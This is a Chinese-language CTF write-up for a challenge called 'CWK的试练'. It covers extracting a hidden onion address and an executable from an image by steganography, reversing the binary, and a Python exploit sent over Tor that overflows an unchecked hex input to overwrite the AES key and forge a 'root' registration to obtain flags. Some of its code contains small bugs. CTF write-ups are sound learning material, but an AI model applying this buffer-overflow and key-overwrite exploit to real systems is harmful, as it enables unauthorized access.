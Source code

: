 ### CWK的试练

通过PIL库可以将trial.webp无损转为png格式（或者其它格式，但jpg不行）：  

	from PIL import Image
	trial = Image.open("trial.webp")
	trial.save("trial.png")

之后使用Stegsolve.jar可以看到绿色最低位隐藏了一个洋葱地址，以及岛上有规律的花纹和贴心地准备的挺粗的一个黑边，应该是在岛的范围内隐藏了什么东西；用SAI魔棒（PS魔棒也行）将岛域剪出来存为trial2.png，但是还是有淡淡的灰边；注意到边界的颜色都是灰色系，RGB中R和B的值相等，于是提取代码可以这样写：  

	from PIL import Image
	t = Image.open("trial2.png")
	white = (255,255,255)
	data = ''
	
	bit = 0
	byte = 0
	for j in range(629):
	    for i in range(642):
	        pixel = t.getpixel((i, j))
	        if(pixel != white and pixel[0]^pixel[2] != 0):
	            byte *= 2
	            byte += pixel[1]&1
	            bit += 1
	            if(bit == 8):
	                data += chr(a)
	                byte = 0
	                bit = 0
	open("trialdata", 'wb').write(data)

运行后可以得到一个base64编码后的可执行文件。  

然后是洋葱地址的问题，做题时个人只装了Tor浏览器，并没有通过Tor直接连接端口的经验；并且直接通过浏览器访问时好像正常返回了一个页面，着实困惑了一段时间，尝试将可执行文件的CRC32作为参数，目录等都试过了23333~直到看到提示才反应过来去查询通过Tor浏览器代理进行nc的资料，得知开着Tor浏览器会在127.0.0.1:9150开一个socks5的Tor网络代理，最后第一个flag的获取脚本为：  

	import socks, socket
	welcome_msg = """Welcome, cyber warriors, to the lost temple of FLXG!
	For your own safety, you need to show me the blueprint of this trial. You won't pass the trial safely without it.
	To be precise, we just need the CRC32 of the blueprint, in UPPERCASE format.\n"""
	socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 9150)
	tor_sock = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
	tor_sock.connect(('ustcctfbase7l74q.onion', 2333))
	tor_sock.send('3D6540C7\n')
	while(len(recved) < len(welcome_msg)):
    	recved += tor_sock.recv(2048)
	print recved

之后可以看到  

	Welcome, cyber warriors, to the lost temple of FLXG!
	For your own safety, you need to show me the blueprint of this trial. You won't pass the trial safely without it.
	To be precise, we just need the CRC32 of the blueprint, in UPPERCASE format.
	Great! As a reward, take this magic spell with you.
	Although it is not that powerful, I hope it will help you somehow.
	flxg{But_the_Sun_Also_Rises}
	Now, go ahead for the trial. CWK is waiting for you.
	
	You have two choices:
	0. Register
	1. Start Trial
	
输出了第一个flag后进入了可执行文件的逻辑。  

分析可执行文件可以发现它先是随机生成了16字节的key，之后选择Register或Start Trial；  

Register函数会让用户输入一个限制在16个字符内的用户名username，再随机产生一个iv，将(iv+\x00username)共0x20个字节用一个对称的异或散射函数编码后再使用key和iv用aes_cbc加密对(\x00username...0x10个字节)+(编码后0x20个字节) 一共0x30个字节进行加密，之后前面附上iv输出0x40个字节；在其中判断了username不能是root，并隐藏了一些username是root时会将username前一个字节赋值为0xAA的逻辑。  

Start Trial函数会接收大写16进制的输入并转换为二进制字节数据存储，可以发现这里的输入并没有限制长度，导致可以溢出覆盖在输入地址之后的变量，甚至可以覆盖到key；  
之后将输入的前0x10个字节作为iv，并用key和iv对输入数据后0x30个字节解密，并用异或散射函数验证解密后的结果，然后判断username的内一段是不是'\xAAroot\x00....\xAA'，是的话就会输出flag；

于是随便选一个aeskey和aesiv，构造一个aesiv+aes_cbc('\xAAroot\x00....\xAA'+异或映射函数(aesiv+'\xAAroot\x00....\xAA'))，之后再添上padding和aeskey发过去就行了；

简单看了一下异或散射函数，然后还是选择了patch源程序让它直接输出函数对有效数据的结果来产生payload, 目录下有patch过的程序`trial_patched`，可以直接注册root并输出`aes_key`为`the_rand_aes_key`，iv为`some_rand_aes_iv`的有效的payload。  

	#coding: utf-8
	
	import socks, socket
	from Crypto.Cipher import AES
	def aes_encrypt(data, key, iv):
	    cryptor = AES.new(key, AES.MODE_CBC, iv)
	    return cryptor.encrypt(data)
	def aes_decrypt(data, key, iv):
	    cryptor = AES.new(key, AES.MODE_CBC, iv)
	    return cryptor.decrypt(data)
	
	aes_iv = 'some_rand_aes_iv'
	aes_key = 'the_rand_aes_key'
	valid_data = aes_iv+'\xAAroot\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xAA'
	#405100: input; 4051C0: aes_ctx; 4051F8: ELF64 Section Header;
	payload = '736F6D655F72616E645F6165735F697694700B62136861C49907F0C9319FC3EBE83336532C56A1CC0887A9E7EAE8DCBA8CA2E468495C91F2618D9F83F6E1FDC1'.decode('hex')#aes_iv+aes_encrypt(valid_data+some_enc(valid_data), aes_key, aes_iv)
	payload += (0x405238-0x405100-len(payload))*'\x00'
    # 这里选择了原样覆盖ELF64 Section Header
	payload += '\x0b\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xa8\x02\x40\x00\x00\x00\x00\x00\xa8\x02\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
	payload += '\x13\x00\x00\x00\x07\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xc4\x02\x40\x00\x00\x00\x00\x00\xc4\x02\x00\x00\x00\x00\x00\x00\x20\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
	payload += '\x21\x00\x00\x00\x07\x00\x00\x00' + aes_key
	payload = payload.encode('hex').upper() + '\n'
	# print payload
	# exit()
	server_addr = 'ustcctfbase7l74q.onion 2333'
	welcome_msg = '''Welcome, cyber warriors, to the lost temple of FLXG!
	For your own safety, you need to show me the blueprint of this trial. You won't pass the trial safely without it.
	To be precise, we just need the CRC32 of the blueprint, in UPPERCASE format.\n'''
	second_msg = '''Great! As a reward, take this magic spell with you.
	Although it is not that powerful, I hope it will help you somehow.
	flxg{But_the_Sun_Also_Rises}
	Now, go ahead for the trial. CWK is waiting for you.
	
	You have two choices:
	0. Register
	1. Start Trial
	Now, show me your power.
	flxg{'''
	socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 9150)
	tor_sock = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
	tor_sock.connect(('ustcctfbase7l74q.onion', 2333))
	tor_sock.send('3D6540C7\n')
	tor_sock.send('1\n'+payload+'\n')
	recved = ''
	while(len(recved) <= len(welcome_msg+second_msg)):
	    recved += tor_sock.recv(2048)
	print recved
	tor_sock.close()

期间有个插曲，一开始我用的WSL系统版本有点旧，glibc版本不符无法调试运行这个程序，尝试给WSL更新了一波glibc。。。

后来看到原来是非预期解，而且做出来的2个都是这样的思路2333~

[返回](../)
